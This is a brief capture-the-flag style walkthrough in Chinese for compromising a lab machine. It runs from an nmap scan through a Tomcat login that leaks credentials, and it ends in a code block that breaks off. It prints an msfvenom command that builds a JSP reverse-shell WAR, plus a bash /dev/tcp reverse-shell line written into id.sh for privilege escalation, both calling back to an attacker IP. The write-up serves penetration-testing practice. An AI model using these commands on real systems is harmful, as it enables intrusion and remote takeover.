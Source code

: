 
## nmap扫描端口
访问8080端口发现是tomcat 有个登录界面

登录界面点取消键就爆出了账户密码 有点离谱了

有个上传页面 上传一个反弹shell

![image.png](https://s2.loli.net/2025/05/01/5U3YcxeDzRVjMb1.png)

制造反弹shell 用msf连接
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.17.40.203 lport=6666-f war > shell.war
```

![image.png](https://s2.loli.net/2025/05/01/6TZ9pfwiHovnIR3.png)

反弹成功

检查到id.sh可以提权
## 提权
```
cat > id.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/10.17.40.203/8888 0>&1
EOF
# 